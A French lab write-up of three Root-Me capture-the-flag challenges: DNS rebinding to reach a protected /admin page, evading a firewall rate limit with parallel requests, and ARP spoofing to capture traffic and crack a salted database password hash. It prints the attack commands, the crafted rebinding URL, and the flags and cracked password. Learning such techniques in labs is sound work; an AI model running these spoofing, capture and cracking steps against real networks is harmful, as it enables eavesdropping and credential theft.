 # TP6 : Un peu de root-me

## I. DNS Rebinding

🌞 **Write-up de l'épreuve**

## Découverte du challenge

Nous sommes confrontés à un serveur qui récupère le contenu d'une URL qui lui est envoyée. Nous devons réussir à récupérer ce qu'affiche la page `/admin`

## Détail de l'attaque

On peut effectuer une attaque DNS rebinding. On a besoin d'un serveur DNS avec un TTL très bas, voire nul. Cela nous permettra de suivre la procédure suivante :

1. Envoi de l'URL avec un nom de domaine choisi pour l'attaque.
2. Le serveur vérifie la localité du nom de domaine fourni. À ce stade, le DNS renvoie une adresse IP publique.
3. Le serveur effectue une requête GET vers l'URL avec le nom de domaine fourni. Le DNS renvoie 127.0.0.1 lorsqu'il reçoit la demande de résolution.

## Résolution de l'attaque

J'ai utilisé ce service de DNS rebinding : [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html).

Nous créons un nom de domaine pour résoudre les adresses IP suivantes : 127.0.0.1 et 216.58.215.46.

J'obtiens l'adresse IP de google grace à cette commande :
```
fmaxance@ZeyKiiPC:~$ wget --spider google.com
Spider mode enabled. Check if remote file exists.
--2023-12-07 11:48:48--  http://google.com/
Resolving google.com (google.com)... 216.58.215.46, 2a00:1450:4007:808::200e
Connecting to google.com (google.com)|216.58.215.46|:80... connected.
```

Le nom de domaine obtenu : `7f000001.d83ad72e.rbndr.us`

On envoi ensuite au site web l'URL suivante à récupérer :
`http://7f000001.d83ad72e.rbndr.us:54022/admin`

Sans oublier de préciser le port `54022` et la page `/admin`

## Conclusion de l'attaque

En résumé, l'utilisation du DNS rebinding, avec l'aide d'un service accessible comme [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html), permet de contourner les restrictions imposées par le serveur. En créant un nom de domaine spécifique, on réussi à faire en sorte que le serveur pense que la requête provient de localhost, nous permettant ainsi d'accéder au flag.

## II. Netfilter erreurs courantes

🌞 **Write-up de l'épreuve**

## Découverte du challenge

Le défi impliquait la récupération des règles d'un pare-feu d'un serveur web et de trouver des failles dans la configuration. Nous devons réussir à récupérer le `flag`

## Détail de l'attaque

En analysant ces règles, on remarque l'utilisation de l'option --limit-burst dans la règle du pare-feu, ce qui limite le nombre de requêtes autorisées.
```
IP46T -A INPUT-HTTP -m limit —limit 3/sec —limit-burst 20 -j DROP
IP46T -A INPUT-HTTP -j ACCEPT
```

## Résolution de l'attaque

Pour contourner cette limitation, on utilise des threads en Python pour effectuer simultanément 22 requêtes vers le serveur. Chaque thread initie une connexion HTTP vers le port spécifié et affiche uniquement la dernière réponse reçue, évitant ainsi d'attendre les autres réponses.

Voici le code utilisé :
[netfilter](netfilter.py)

## Conclusion de l'attaque

Finalement, on réussi à obtenir le flag en exploitant les limitations du pare-feu.

## III. ARP Spoofing Ecoute active

🌞 **Write-up de l'épreuve**

## Découverte du challenge

Le défi impliquait la récupération d'informations confidentielles qui transitent sur un réseau donné. On a donc accès à un LAN via une machine qu'on contrôle. Nous devons réussir à récupérer deux `flag`. La concaténation de la réponse à une requête sur le réseau, ainsi que le mot de passe de la base de données forme le bon mot de passe de l'épreuve.

## Détail de l'attaque

On commence par faire un scan du réseau afin de comprendre quelle machine existe et quel service tourne. On installe donc quelque outil utile `nmap, netools, iproute2, iputils-ping`.

```
	Nmap scan report for 172.18.0.1
	Host is up (0.000033s latency).
	MAC Address: 02:42:A8:F3:06:A5 (Unknown)
	Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.3)
	Host is up (0.000031s latency).
	MAC Address: 02:42:AC:12:00:03 (Unknown)
	Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.4)
	Host is up (0.000039s latency).
	MAC Address: 02:42:AC:12:00:04 (Unknown)
	Nmap scan report for fac50de5d760 (172.18.0.2)
	Host is up.
```

On découvre deux machines :

`db.arp-spoofing-dist-2_default (172.18.0.3)` avec le port 3306 ouvert qui fait tourner `mysql`

`client.arp-spoofing-dist-2_default (172.18.0.4)` avec aucun port ouvert.

---

On install par réflexe `mysql-client`

On essaye donc de se connecter à la DB :
`mysql -h 172.18.0.3`

Logique ça demande un mdp qu'on a pas...
On peut alors se diriger vers un `ARP Spoofing` pour capturer des trames sur le réseau entre les deux machines (d'ou le titre de l'épreuve ARP Spoofing Ecoute active)

On install l'outil `dsniff` puis on lance un ARP Spoofing :

```
arpspoof -t 172.18.0.4 172.18.0.3
arpspoof -t 172.18.0.3 172.18.0.4
```

Puis on scan le réseau afin de réaliser un dump des trames capturé, on install l'outil `tcpdump` :

```
tcpdump -nn -n -v 'not host 195.7.117.146' -w io.pcap
```

On peut du coup logiquement check le fichier `io.pcap` en temps réel afin de détécter si on capture un nombre de trame au dessus de deux par deux. Car logiquement on envoi 2 trames par 2 trames avec l'arpspoof. DONC si on voit que dans l'incrémentation on voit un `+3` C'EST qu'on a choppé un truc intéréssant. On utilise `tail` :

```
tail -f io.pcap
```

Une fois ça finis on copy en ssh ce fichier afin de l'analyser sur notre machine perso avec wireshark :

```
scp -P 22222 root@ctf15.root-me.org:/root/io.pcap .
```

En analysant les trames capturer on trouve rapidement dans les data le premier flag : `l1tter4lly_4_c4ptur3_th3_fl4g`

Puis on trouve aussi le Password !
Ahaha c'est un hash...

`33e8f543f1995475aab52f424b1333d3e3bb8b06`

Bon bah go chercher le bonne outil pour comprendre ce truc, sachant qu'un hash est par définition à sens unique donc irréverssible. MAIS on peut comparer ce hash avec des hash d'une wordlist afin de renvoyer le bon mot derrière.

On s'aperçoit vite qu'il y a du SEL au début de ce hash pour maximiser et faire en sorte que rien ne se ressemble mais en cherchant le bonne outil on tombe sur ce GitHub :
https://github.com/kazkansouh/odd-hash

On a donc ces infos :

    salt1 : "#Yp'?7." soit "235970273f375c2e" en héxa
    
    salt2 : "}Q?&\034`>Nt_uX" soit "7d513f261c603e4e745f7558"

    Double salt hex : 235970273f375c2e7d513f261c603e4e745f7558

On a tout pour utiliser l'outil plus haut :

```
fmaxance@ZeyKiiPC:~/Repo/RootMe/Wordlists$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:235970273f375c2e7d513f261c603e4e745f7558 rockyou.txt 33e8f543f1995475aab52f424b1333d3e3bb8b06
[*] loading file...
[*] found heyheyhey=33e8f543f1995475aab52f424b1333d3e3bb8b06
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords
```

ET BIM ! Le mdp c'est `heyheyhey`

On fait donc la concaténation du premier flag et de ce mdp et on a le flag entier : `l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey`

## Conclusion de l'attaque

Pour conclure, le défi ARP Spoofing Ecoute active consistait à récupérer des informations confidentielles sur un réseau. Après avoir identifié deux machines, une attaque ARP Spoofing a été utilisée pour capturer des trames réseau. 

En analysant ces trames, on découvre le premier flag et un mot de passe hashé. En déchiffrant le mot de passe avec l'outil odd-hash, on obtient le mot de passe heyheyhey. 

La concaténation du premier flag avec ce mot de passe a donné le flag final : l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey.